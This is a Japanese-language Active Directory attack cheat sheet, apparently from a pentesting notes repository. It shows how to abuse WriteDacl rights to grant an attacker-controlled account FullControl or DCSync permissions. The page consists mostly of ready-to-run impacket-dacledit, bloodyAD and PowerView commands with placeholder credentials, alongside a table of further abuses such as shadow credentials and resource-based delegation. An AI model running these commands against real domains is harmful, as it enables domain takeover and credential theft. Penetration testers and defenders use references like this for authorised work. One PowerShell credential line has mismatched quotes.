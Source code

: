 # 権限の追加

この悪用は、`WriteDacl` を持つオブジェクトを別のオブジェクトで制御するときに実行できる。

攻撃者はターゲット・オブジェクトの DACLに新しい ACE を書き込むことができる。これにより、攻撃者はターゲット・オブジェクトを完全に制御することができる。

## Linux

### impacket

以下の４つの権限の中からを選択できる

- FullControl
- ResetPassword
- WriteMembers
- DCSync

```
impacket-dacledit -action "write" -rights "FullControl" -principal "<Controlled_User>" -target "<TargetObject>" <DOMAIN>/<USERNAME>:<PASSWORD>
```

### bloodyAD

追加できる権限一覧

| computer          | 新しいコンピューターの追加                                   |
| ----------------- | ------------------------------------------------------------ |
| dcsync            | ドメインの DCSync 権限を追加する (ドメインオブジェクトを所有するか WriteDacl を持っている必要がある) |
| dnsRecord         | 新しいDNSレコードをAD環境に追加                              |
| genericAll        | フルコントロールを与える（オブジェクトを所有しているか、WriteDaclを持っている必要がある） |
| groupMember       | グループに新しいメンバー（ユーザー、グループ、コンピュータ）を追加する |
| rbcd              | リソースベースの制約委任を追加し、ターゲット上のユーザーをサービスになりすます（ターゲットの `msDS-AllowedToActOnBehalfOfOtherIdentity` の 「Write」 権限と Windows Server >= 2012 が必要） |
| shadowCredentials | Key Credentials をターゲットに追加し、追加したクレデンシャルでターゲットになりすます |
| uac               | ユーザー/コンピュータ・オブジェクトの動作を変更するプロパティ・フラグを追加する |
| user              | 新しいユーザーを追加する                                     |

完全な制御権を与える

```
bloodyAD --host <DC_IP> -d <DOMAIN> -u "<USERNAME>" -p "<PASSWORD>" add genericAll "<TargetObject>" "<Controlled_User>"
```

DCSync を付与

```
bloodyAD --host <DC_IP> -d <DOMAIN> -u "<USERNAME>" -p "<PASSWORD>" add dcsync "<Contorolled_User>"
```

## Windows

### PowerView

完全な制御権を与える

```
Add-DomainObjectAcl -Rights All -TargetIdentity "<Target_Object>" -PrincipalIdentity "<Controlled_User>"
```

#### そのユーザーとしてプロセスを実行したいない場合

PSCredential オブジェクトを作成

```
$SecPassword = ConvertTo-SecureString "<PASSWORD>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential("<DOMAIN>\<USERNAME>", $SecPassword)
```

完全な制御権を与える

```
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "<TargetObject>" -Rights All
```

